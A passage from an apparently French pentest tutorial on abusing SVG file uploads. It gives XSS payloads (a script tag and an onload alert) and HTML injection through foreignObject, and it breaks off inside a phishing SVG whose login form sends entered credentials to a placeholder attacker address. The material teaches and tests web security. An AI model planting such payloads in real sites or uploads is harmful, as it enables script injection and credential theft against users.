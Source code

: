Ou en plus court :

**xss\_1.svg**

```svg
<svg xmlns="http://www.w3.org/2000/svg">
    <script>alert(1);</script>
</svg>
```

**xss\_2.svg**

```svg
<svg xmlns="http://www.w3.org/2000/svg" onload="alert(1)"/>
```

D'autres exemples de fichiers SVG contenant des payloads pour injection XSS sont présents sur [HTML5 Security Cheatsheet](https://html5sec.org/#svg).

## HTML Injection

### Pré-requis

- Le fichier doit être accessible après avoir été uploadé

### Attaque

Dans certaines contextes, le payload XSS peut être refusé. Mais l'injection de code HTML est toujours possible, à l'aide de `foreignObject`:

**html.svg**

```svg
<?xml version="1.0" standalone="no"?>
<!DOCTYPE svg PUBLIC "-//W3C//DTD SVG 1.1//EN" "http://www.w3.org/Graphics/SVG/1.1/DTD/svg11.dtd">

<svg version="1.1" baseProfile="full" xmlns="http://www.w3.org/2000/svg">
    <polygon id="triangle" points="0,0 0,50 50,0" fill="#009900" stroke="#004400"/>
    <foreignObject class="node" width="600" height="600">
        <body xmlns="http://www.w3.org/1999/xhtml">
            <style>
                h1 {color: green}
            </style>
            <h1>HTML Injection</h1>
        </body>
    </foreignObject>
</svg>
```

Pourvoir exécuter de l'HTML permet à un attaqueur d'effectuer du **phishing**, contourner le CSP (**CSP bypass**) etc.

Un exemple pour le phishing :

**html\_phishing.svg**

```svg
<?xml version="1.0" standalone="no"?>
<!DOCTYPE svg PUBLIC "-//W3C//DTD SVG 1.1//EN" "http://www.w3.org/Graphics/SVG/1.1/DTD/svg11.dtd">

<svg version="1.1" baseProfile="full" xmlns="http://www.w3.org/2000/svg">
    <polygon id="triangle" points="0,0 0,50 50,0" fill="#009900" stroke="#004400"/>
    <foreignObject class="node" width="600" height="600">
        <body xmlns="http://www.w3.org/1999/xhtml">
            <style>
                h1 {color: green}
            </style>
            <h1>HTML Injection : Phishing</h1>
               <b>Entrez vos identifiants :</b>
            <form action="http://xxx.xxx.xxx.xxx:1234" method="GET">
```